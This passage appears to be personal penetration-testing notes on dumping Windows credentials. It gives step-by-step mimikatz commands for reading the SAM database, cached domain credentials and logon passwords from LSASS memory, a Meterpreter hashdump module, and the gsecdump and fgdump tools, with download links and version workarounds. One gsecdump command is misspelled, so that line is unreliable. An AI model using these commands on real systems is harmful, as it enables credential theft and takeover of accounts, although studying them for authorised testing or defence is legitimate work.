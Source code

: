 #### Dumping with Mimikatz (requires admin)

Note:  the 2.2.0 version of mimikatz x64 that came with Kali on this machine may throw the error `ERROR kuhl_m_sekurlsa_acquireLSA ; Key import`.  It seems as if the newer versions of mimikatz produce this error on Windows 10 ver 1803-1809 but mimikatz 2.1.1 works fine.  Version 2.1.1 can be found here:  https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip

```powershell
# Start the mimikatz interpreter in an ADMIN prompt
mimikatz.exe
# enable SeDebugPrivilge
privilege::debug
# Elevate security token to SYSTEM
token::elevate
# Dump SAM database
lsadump::sam
# Dump cached domain creds
lsadump::cache
# Dumps cached logon creds
sekurlsa::logonpasswords
```

#### Dumping from Meterpreter

```bash
# This dumps the hashes from the SAM file after decrypting it from the registry
# Great way to get all local accounts
run post/windows/gather/smart_hashdump
```

#### gsecdump (probably requires admin)

This tool (allegedly) works on 32bit and 64bit Windows across all versions of Windows (it had issues when I tried it on Win2019x64).   This tool injects a DLL into the LSASS process to grab hashes from memory.  This is dangerous to do in a production environment and can cause a kernel panic (BSoD).   Registry and Shadow Copies are safer for production environments.  I had success running this on Windows XP in a non-interactive shell:

```powershell
# Dump all secrets
gsecdump -a

# Dump hashes from SAM/AD
# This should give you the LM hash, it did on WinXP
# Note:  The LM hash was the second hash field in the output
geecdump -s
```

I found this at  https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/

#### fgdump

This is another option to dump hashes.  It will dump the creds to a file in the same directory in a file called `YOURIP.pwdump`

It is located in /usr/share/windows-binaries/fgdump and is also available at  https://download.openwall.net/pub/projects/john/contrib/win32/pwdump/
